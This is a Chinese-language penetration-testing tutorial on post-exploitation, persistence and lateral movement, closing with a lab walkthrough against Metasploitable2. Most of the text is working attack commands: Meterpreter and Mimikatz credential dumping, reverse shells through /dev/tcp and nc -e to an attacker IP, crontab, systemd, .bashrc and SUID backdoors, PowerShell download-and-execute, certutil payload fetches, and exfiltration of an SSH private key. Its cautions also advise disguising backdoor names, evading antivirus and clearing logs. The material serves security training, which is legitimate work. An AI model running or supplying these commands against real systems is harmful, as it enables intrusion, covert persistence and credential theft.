


## 目录

- [[#一、Meterpreter高级功能|一、Meterpreter高级功能]]
 - [[#1.1 信息收集|1.1 信息收集]]
 - [[#1.2 提权技术|1.2 提权技术]]
 - [[#1.3 进程迁移|1.3 进程迁移]]
 - [[#1.4 键盘记录与截图|1.4 键盘记录与截图]]
 - [[#1.5 凭证收集|1.5 凭证收集]]
 - [[#1.6 端口转发|1.6 端口转发]]
 - [[#1.7 路由转发|1.7 路由转发]]
- [[#二、持久化技术|二、持久化技术]]
 - [[#2.1 Linux持久化|2.1 Linux持久化]]
 - [[#2.2 Windows持久化|2.2 Windows持久化]]
- [[#三、横向移动|三、横向移动]]
 - [[#3.1 SSH隧道技术|3.1 SSH隧道技术]]
 - [[#3.2 proxychains配置与使用|3.2 proxychains配置与使用]]
 - [[#3.3 Chisel隧道工具|3.3 Chisel隧道工具]]
- [[#四、文件传输技巧|四、文件传输技巧]]
 - [[#4.1 常用下载方法|4.1 常用下载方法]]
 - [[#4.2 PowerShell与Certutil|4.2 PowerShell与Certutil]]
 - [[#4.3 Bash /dev/tcp|4.3 Bash /dev/tcp]]
- [[#五、后渗透与横向移动流程总览|五、后渗透与横向移动流程总览]]
- [[#六、实践练习|六、实践练习]]

---

## 一、Meterpreter高级功能

> 关联阅读：[[03-网络扫描与枚举技术|扫描探测]] 获取的漏洞信息引导初始立足点获取。

### 1.1 信息收集

**系统枚举：**

```bash
sysinfo # 系统概览 (OS, 主机名, 架构)
getuid # 当前用户身份
getprivs # 用户权限列表
ps # 进程列表
getsystem # 尝试提权到SYSTEM (Windows)
use priv # 加载提权扩展
```

**网络信息：**

```bash
ipconfig / ifconfig # 网络接口信息
route # 路由表 (可用于后续路由转发)
arp # ARP表
netstat # 网络连接和监听端口
```

**高级信息收集模块：**

```bash
getpid # 当前Meterpreter进程ID
use sniffer # 加载嗅探扩展
run post/windows/gather/enum_applications # 枚举已安装应用
run post/linux/gather/enum_system # Linux系统信息
run post/multi/gather/env # 环境变量
run post/windows/gather/checkvm # 是否在虚拟机中
run post/windows/gather/enum_domains # 枚举域信息
run post/multi/gather/firefox_creds # 提取Firefox凭证
```

### 1.2 提权技术

**Windows提权：**

```bash
getsystem # 尝试直接提权 (SeDebugPrivilege)
getprivs # 查看令牌权限
use priv # 加载提权模块
hashdump # 导出密码Hash (需SYSTEM权限)

# 使用post模块
run post/multi/recon/local_exploit_suggester # 本地提权建议
run post/windows/escalate/ms10_073_kbdlayout # 具体exploit
```

**Linux提权：**

```bash
sudo -l # 查看可执行的sudo命令
find / -perm -4000 -type f 2>/dev/null # 查找SUID文件
cat /etc/crontab # 查看计划任务
find / -writable -type f 2>/dev/null | grep -v proc # 可写文件
uname -a # 内核版本 (搜索提权exploit)
cat /etc/passwd # 用户列表
```

### 1.3 进程迁移

**为什么要迁移：**
- 目标进程崩溃时会失联
- 迁移到更稳定的进程（如 explorer.exe, svchost.exe）
- 某些安全软件会监控可疑进程

```bash
ps # 查看进程列表
migrate PID # 迁移到指定PID
migrate -N explorer.exe # 迁移到指定进程名 (Windows)
migrate -N sshd # 迁移到指定进程名 (Linux)
getpid # 确认迁移成功
```

### 1.4 键盘记录与截图

```bash
# 键盘记录 (Windows)
keyscan_start # 开始记录
keyscan_dump # 导出记录的按键
keyscan_stop # 停止记录

# 屏幕截图
screenshot # 截取目标桌面
use espia # 加载Espia模块 (更多屏幕功能)

# 通过sniffer模块嗅探
use sniffer
sniffer_interfaces # 列出可嗅探的接口
sniffer_start 1 # 开始嗅探接口1
sniffer_dump 1 capture.pcap # 导出数据
```

### 1.5 凭证收集

> 关联阅读：[[05-密码攻击与破解技术|密码破解]] 中可对导出的Hash进行离线破解。

**Windows凭证收集：**

```bash
# 基础Hash导出
hashdump

# 完善的Hash导出
run post/windows/gather/smart_hashdump

# 凭证收集器
run post/windows/gather/credentials/credential_collector
run post/windows/gather/enum_unattend # 无人值守安装文件
```

**Mimikatz集成（内存中提取明文密码）：**

```bash
load kiwi # 加载mimikatz模块
creds_all # 导出所有凭证
creds_kerberos # Kerberos票据
creds_msv # MSV凭证
creds_wdigest # WDigest凭证
kerberos_ticket_list # 列出Kerberos票据
kerberos_ticket_use # 使用票据
gold_ticket_create # 创建黄金票据
lsa_dump_sam # 导出SAM
lsa_dump_secrets # 导出LSA secrets
```

**Linux凭证收集：**

```bash
run post/linux/gather/hashdump # 导出/etc/shadow
run post/multi/gather/firefox_creds # Firefox凭证
run post/multi/gather/enum_unattend # 无人值守配置
```

### 1.6 端口转发

```bash
# 将目标内网的3389端口转发到攻击机的3388
portfwd add -L 0.0.0.0 -l 3388 -p 3389 -r 10.0.0.10

# 将内网Web服务转发到攻击机80端口
portfwd add -L 0.0.0.0 -l 80 -p 80 -r 10.0.0.100

# 管理转发
portfwd list
portfwd delete -L 0.0.0.0 -l 3388
```

### 1.7 路由转发

```bash
# 查看目标网络信息
route
arp

# 添加路由 (通过已控制的机器访问内网)
run autoroute -s 10.0.0.0/24
run autoroute -p # 查看已添加的路由

# 通过SOCKS代理访问 (配合proxychains)
use auxiliary/server/socks_proxy
set SRVHOST 0.0.0.0
set SRVPORT 1080
run -j

# 之后配置 /etc/proxychains.conf 添加: socks4 127.0.0.1 1080
# 使用: proxychains nmap -sT -Pn 10.0.0.5
```

---

## 二、持久化技术

### 2.1 Linux持久化

**SSH密钥后门：**

```bash
# 在目标机器上:
ssh-keygen -t ed25519 -f ~/.ssh/backdoor -N ""
cat ~/.ssh/backdoor.pub >> ~/.ssh/authorized_keys

# 将私钥带回攻击机 (Meterpreter)
download ~/.ssh/backdoor /root/keys/target_ssh_key

# 从攻击机连接
chmod 600 /root/keys/target_ssh_key
ssh -i /root/keys/target_ssh_key user@target
```

**Crontab后门：**

```bash
# 每5分钟执行一次反弹shell
(crontab -l 2>/dev/null; echo "*/5 * * * * /tmp/.update.sh") | crontab -
```

`/tmp/.update.sh` 内容：

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.0.0.1/5555 0>&1
```

**Systemd服务后门：**

创建 `/etc/systemd/system/backup.service`：

```ini
[Unit]
Description=System Backup Service
[Service]
Type=simple
ExecStart=/usr/bin/nc -e /bin/bash 10.0.0.1 5555
Restart=always
[Install]
WantedBy=multi-user.target
```

```bash
systemctl daemon-reload
systemctl enable backup.service
systemctl start backup.service
```

**.bashrc/.profile 后门：**

```bash
echo "bash -i >& /dev/tcp/10.0.0.1/5555 0>&1 2>/dev/null &" >> ~/.bashrc
```

**SUID后门（需root）：**

```bash
cp /bin/bash /tmp/.shell
chmod 4755 /tmp/.shell
# 任何用户执行 /tmp/.shell -p 即可获得root shell
```

### 2.2 Windows持久化

**注册表Run键：**

```bash
reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run \
 -v "WindowsUpdate" -d "C:\\Windows\\Temp\\payload.exe"
```

**计划任务：**

```bash
schtasks /create /tn "WindowsUpdate" /tr "C:\payload.exe" \
 /sc daily /st 09:00 /ru SYSTEM
```

**Windows服务：**

```bash
sc create "WinUpdate" binPath= "C:\payload.exe" start= auto
sc start "WinUpdate"
```

**Metasploit持久化模块：**

```bash
# Meterpreter中:
run persistence -U -i 60 -p 4444 -r 10.0.0.1
# -U: 用户登录时启动
# -i 60: 每60秒回连一次
# -p 4444: 监听端口
# -r 10.0.0.1: 回连IP

# 更好的持久化模块
run exploit/windows/local/persistence
run exploit/windows/local/persistence_service
```

---

## 三、横向移动

### 3.1 SSH隧道技术

| 类型 | 参数 | 方向 | 用途 |
|------|------|------|------|
| 本地端口转发 | `-L` | 攻击机→跳板机→内网 | 通过跳板机访问内网服务 |
| 远程端口转发 | `-R` | 内网机器→攻击机 | 将内网服务暴露给攻击机 |
| 动态端口转发 | `-D` | 攻击机→跳板机→任意 | SOCKS代理 |
| 多重跳板 | `-J` | 多级跳转 | 链式跳板 |

**本地端口转发：**

```bash
# 通过跳板机访问内网Web
ssh -L 8080:10.0.0.5:80 user@jumphost
# 攻击机 localhost:8080 → jumphost → 10.0.0.5:80
```

**远程端口转发：**

```bash
# 在内网机器上执行, 将RDP暴露给攻击机
ssh -R 3389:10.0.0.5:3389 user@attacker
# attacker:3389 → 内网机器 → 10.0.0.5:3389
```

**动态端口转发（SOCKS代理）：**

```bash
# 在攻击机上建立SOCKS代理
ssh -D 1080 user@jumphost -fN
# 之后配置 proxychains 使用 socks5 127.0.0.1 1080
```

**多重跳板：**

```bash
ssh -J user1@jumphost1,user2@jumphost2 user3@finaltarget
```

### 3.2 proxychains配置与使用

配置文件 `/etc/proxychains.conf` 末尾添加：

```
socks4 127.0.0.1 9050 # Tor代理
socks4 127.0.0.1 1080 # SSH动态转发代理
http 10.0.0.1 8080 # HTTP代理
```

代理链类型：

| 模式 | 说明 |
|------|------|
| `strict_chain` | 按顺序使用代理（更安全） |
| `dynamic_chain` | 动态跳过不可用的代理 |
| `random_chain` | 随机选择代理 |

使用方法：

```bash
proxychains nmap -sT -Pn -p 80,443,3389 10.0.0.5
proxychains hydra -l admin -P pass.txt 10.0.0.5 ssh
proxychains firefox
```

### 3.3 Chisel隧道工具

Chisel是多平台TCP/UDP隧道工具，通过HTTP伪装传输，适合绕过仅开放HTTP出站的环境。

**服务器端（攻击机）：**

```bash
chisel server -p 8080 --reverse
# 监听8080端口, 允许反向连接
```

**客户端（目标机）：**

```bash
# 反向SOCKS代理 (目标机连回攻击机)
chisel client 10.0.0.1:8080 R:socks

# 反向端口转发 (将内网服务暴露给攻击机)
chisel client 10.0.0.1:8080 R:3389:10.0.0.5:3389

# 正向端口转发 (攻击机通过目标机访问内网)
chisel client 10.0.0.1:8080 1081:10.0.0.5:80
```

**典型场景：**

```bash
# 场景1: 通过妥协的DMZ服务器访问内网
# 攻击机: chisel server -p 443 --reverse
# DMZ: chisel client 攻击机IP:443 R:socks
# 攻击机: proxychains nmap 内网IP

# 场景2: 绕过严格出站限制 (仅允许HTTPS)
# 攻击机: chisel server -p 443 --reverse
# 目标: chisel client 攻击机IP:443 R:3389:127.0.0.1:3389
# 攻击机: rdesktop 127.0.0.1:3389
```

---

## 四、文件传输技巧

### 4.1 常用下载方法

```bash
# 攻击机先开启HTTP服务
python3 -m http.server 8000

# 目标机下载
wget http://10.0.0.1:8000/tool.sh -O /tmp/tool.sh
curl http://10.0.0.1:8000/tool.sh -o /tmp/tool.sh

# Netcat传输
# 攻击机:
nc -lvp 4444 < /root/tools/nc.exe
# 目标机:
nc 10.0.0.1 4444 > C:\Windows\Temp\nc.exe

# SCP
scp /local/file user@target:/remote/path/
scp -i keyfile /local/file user@target:/remote/path/

# Rsync
rsync -avz /local/dir/ user@target:/remote/dir/

# Base64编码传输 (绕过限制)
# 攻击机:
base64 -w0 payload.bin > payload_b64.txt
# 目标机:
echo "<B64_STRING>" | base64 -d > /tmp/payload.bin
```

**Meterpreter传输：**

```bash
upload /local/payload.exe C:\\Windows\\Temp\\payload.exe
download C:\\Windows\\System32\\config\\SAM /root/evidence/SAM
```

### 4.2 PowerShell与Certutil

```powershell
# PowerShell下载
powershell -c "Invoke-WebRequest -Uri http://10.0.0.1:8000/payload.exe -OutFile C:\Temp\payload.exe"

# PowerShell内存加载 (无文件落地)
powershell -c "IEX (New-Object Net.WebClient).DownloadString('http://10.0.0.1:8000/script.ps1')"

# Certutil下载 (Windows, 绕过限制)
certutil -urlcache -split -f http://10.0.0.1:8000/payload.exe C:\Temp\payload.exe
```

### 4.3 Bash /dev/tcp

```bash
# 攻击机监听
nc -lvp 4444 > received_file

# 目标机发送
cat file_to_send > /dev/tcp/10.0.0.1/4444

# 接收文件
exec 3<>/dev/tcp/10.0.0.1/4444
cat <&3 > received_file
```

---

## 五、后渗透与横向移动流程总览





---

## 六、实践练习

> 实验环境：攻击机 (192.168.1.50)，目标1 Metasploitable2 (192.168.1.100)，目标2 模拟内网 (10.0.0.5)

### 阶段一：获取初始Shell

```bash
msfconsole -q
use auxiliary/scanner/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.1.100
run
# 成功则获得root shell
sessions -l
sessions -i 1

# 升级到Meterpreter (可选)
sessions -u 1
```

### 阶段二：信息收集

```bash
whoami && id
uname -a
cat /etc/passwd
cat /etc/shadow
cat /etc/crontab
cat /etc/hosts
ip addr show
route -n
ps aux
netstat -tulnp
cat /etc/ssh/sshd_config

# 保存信息到文件
mkdir -p /tmp/recon
cat /etc/passwd > /tmp/recon/users
ip addr show > /tmp/recon/network
route -n > /tmp/recon/routes

# 查看历史记录
cat ~/.bash_history
cat /root/.bash_history

# 搜索敏感文件
find / -name "*.conf" -type f 2>/dev/null | head -20
find / -name "*.sql" -type f 2>/dev/null
find / -name "*pass*" -type f 2>/dev/null
find / -name "id_rsa" -type f 2>/dev/null
find / -name "*.pem" -type f 2>/dev/null
```

### 阶段三：凭证收集

```bash
# 检查SSH密钥
ls -la ~/.ssh/
cat ~/.ssh/id_rsa
cat ~/.ssh/id_dsa
cat ~/.ssh/authorized_keys

# 检查数据库配置
find / -name "wp-config.php" 2>/dev/null
cat /var/www/dvwa/config/config.inc.php 2>/dev/null
cat /var/www/mutillidae/config.inc 2>/dev/null

# 查看MySQL数据库
mysql -u root -e "SELECT User,Password FROM mysql.user;"
mysql -u root -e "SHOW DATABASES;"
```

### 阶段四：建立持久化

```bash
# 1. SSH密钥后门
mkdir -p ~/.ssh
ssh-keygen -t rsa -b 2048 -f ~/.ssh/backdoor -N "" -q
cat ~/.ssh/backdoor.pub >> ~/.ssh/authorized_keys

# 获取私钥到攻击机
# 攻击机执行: nc -lvp 5555 > ms2_backdoor
# 目标机执行: cat ~/.ssh/backdoor > /dev/tcp/192.168.1.50/5555

# 测试SSH密钥连接
chmod 600 ~/.ssh/ms2_backdoor
ssh -i ~/.ssh/ms2_backdoor root@192.168.1.100
exit

# 2. Crontab后门
echo "*/5 * * * * root /bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.1.50/4444 0>&1'" > /etc/cron.d/backup
systemctl restart cron

# 验证crontab后门
# 攻击机执行: nc -lvp 4444 (等待5分钟内收到反弹shell)
```

### 阶段五：横向移动模拟

```bash
# 发现内网目标
cat /etc/hosts
arp -a

# SSH动态代理
ssh -i ~/.ssh/ms2_backdoor -D 1080 root@192.168.1.100 -fN

# 配置proxychains
# 编辑 /etc/proxychains.conf, 末尾添加: socks4 127.0.0.1 1080

# 通过代理探测内网
proxychains nmap -sT -Pn -p 22,80,445,3389 10.0.0.5
proxychains curl http://10.0.0.5 2>/dev/null

# 本地端口转发访问内网Web
ssh -i ~/.ssh/ms2_backdoor -L 8080:10.0.0.5:80 root@192.168.1.100 -fN
# 浏览器打开: http://localhost:8080
```

### 阶段六：清理持久化后门

```bash
# 移除SSH后门
ssh root@192.168.1.100
rm ~/.ssh/backdoor ~/.ssh/backdoor.pub
# 编辑 ~/.ssh/authorized_keys 删除后门公钥行

# 移除crontab后门
rm /etc/cron.d/backup

# 关闭后门SSH连接
pkill -f "ssh.*192.168.1.100"

exit
```

### 阶段七：编写后渗透实践报告

```bash
echo "=== 后渗透实践报告 ===" > post_exploit_report.txt
echo "" >> post_exploit_report.txt
echo "目标: Metasploitable2 (192.168.1.100)" >> post_exploit_report.txt
echo "初始访问: VSFTPD v2.3.4 后门 (CVE-2011-2523)" >> post_exploit_report.txt
echo "权限: root" >> post_exploit_report.txt
echo "" >> post_exploit_report.txt
echo "收集的信息:" >> post_exploit_report.txt
echo " - 系统版本: Linux 2.6.24" >> post_exploit_report.txt
echo " - 用户列表: root, msfadmin, user, ..." >> post_exploit_report.txt
echo " - 网络接口: eth0 192.168.1.100" >> post_exploit_report.txt
echo " - 运行服务: 21, 22, 80, 3306, 6667, ..." >> post_exploit_report.txt
echo "" >> post_exploit_report.txt
echo "持久化方法:" >> post_exploit_report.txt
echo " - SSH密钥 (已安装)" >> post_exploit_report.txt
echo " - Crontab反弹shell (已安装)" >> post_exploit_report.txt
echo "" >> post_exploit_report.txt
echo "横向移动:" >> post_exploit_report.txt
echo " - SSH动态代理 (-D 1080)" >> post_exploit_report.txt
echo " - Proxychains链接" >> post_exploit_report.txt
```

### 注意事项

- **所有持久化技术仅在授权测试中使用**
- 持久化后门应在渗透测试结束后立即移除
- 使用非标准端口和加密通道减少检测风险
- 后门程序命名模仿系统进程名（如 update, backup, sync）
- SSH隧道在日志中可见，需配合日志清理（参见 [[08-痕迹清除与渗透报告|痕迹清除]]）
- proxychains对UDP扫描有限制，`nmap -sU` 不适用
- Chisel的HTTP伪装能有效绕过多数防火墙
- Windows持久化需注意杀软检测，做好免杀
- 横向移动前需充分侦察内网拓扑，减少盲目扫描
- Metasploitable2本身就是被入侵的靶机，请勿在公网暴露

---

> [[../总目录与快速查询|← 返回总目录]]
> 
> 相关模块：[[03-网络扫描与枚举技术|扫描探测]] · [[05-密码攻击与破解技术|密码破解]] · [[06-网络嗅探与中间人攻击|MITM攻击]] · [[08-痕迹清除与渗透报告|痕迹清除]]
